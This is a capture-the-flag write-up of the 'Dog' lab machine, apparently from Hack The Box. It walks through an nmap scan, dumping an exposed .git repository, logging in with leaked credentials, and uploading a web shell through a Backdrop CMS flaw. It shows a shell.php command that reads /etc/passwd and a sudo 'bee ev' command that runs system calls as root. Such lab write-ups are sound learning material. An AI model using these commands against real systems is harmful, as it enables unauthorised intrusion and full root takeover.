



# 🐶Dog

## 🧠Summary
> The vulnarablity found is LFI (local file inclusion).
> A content managment system called as CMS backdrop is used.
> After accessing the system, I found a web-based program that runs without root privileges but still gives root access.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- The result of the nmap scan is  
- The ssh and http ports are open

## 🖥️Step 2 (Web enumeration)
- Used dirsearch to enumerate the webpage
  ```bash
  dirsearch -u http://dog.htb/
  ```
- The link to the output file 👉 [dirsearch_ouput.txt](./reports/dirsearch.txt)
- Found that the /.git is accessable
- Used git-dumper to download all the git repository
  ```bash
  git-dumper http://dog.htb/.git ./dog_git_repo
  ```

## 🧩Step 3 (loop_hole)
- Checked through the downloaded file and found out 2 important creds
  
  
- Used this obtained creds to login to the webpage

## 🛜Step 4 (Web admin access)
- As gained the web admin access used the CVE found in Backdrop CMS (Remote code exicution)
- Uploaded this file into the webpage 👉 [shell.tar](./shell/shell.tar)
- Then used the link "http://dog.htb/module/shell/shell.php?cmd=cat+%2f/etc/passwd"
- Got 2 users jobert and johncusack

## 🌐Step 5 (Foothold)
- Using the above optained username and the earlier password enter the system using ssh
- jobert (❎ failed)
- johncusack (✅ success)
- Did sudo -l and found that johncusack can run an application called bee
- Used the below command to obtain the root flag
  ```bash
  cd /var/www/html/
  sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
  ```
